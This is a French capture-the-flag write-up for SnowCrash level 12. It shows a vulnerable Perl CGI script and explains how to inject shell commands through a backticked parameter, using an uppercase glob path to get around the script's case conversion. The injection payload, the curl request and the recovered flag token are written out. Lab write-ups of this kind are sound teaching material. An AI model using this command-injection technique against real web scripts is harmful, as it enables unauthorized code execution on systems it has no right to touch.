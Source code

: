 # Level 12

Nous avons a disposition un fichier perl

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

La faille a exploiter est le fait que la regex est mal faite, on peut donc faire passer des commandes dans le paramètre x. grace aux backticks.

Si on arrive a lui donner en paramètre x la commande `getflag` on aura le flag.
Mais il y a un probleme, le script met en majuscule le paramètre x, donc on ne peut pas utiliser de minuscule.
La solution est de mettre notre getflag dans un fichier, et de le faire executer par le script.(nom du fichier qui sera mis en majuscule)
Si notre fichier a un nom unique, on peut utiliser "\*" pour remplacer le path, donc en creant un fichier dans /tmp/FREE_TOKEN, on peut faire passer la commande `getflag > /tmp/FREE_TOKEN` et passer en argument x le fichier /\*/FREE_TOKEN

```bash
level12@SnowCrash:~$ echo "getflag > /tmp/FREE_TOKEN" > /tmp/FREE_TOKEN && chmod 777 /tmp/FREE_TOKEN
level12@SnowCrash:~$ curl localhost:4646?x='`/*/FREE_TOKEN`' && cat /tmp/FREE_TOKEN
..Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
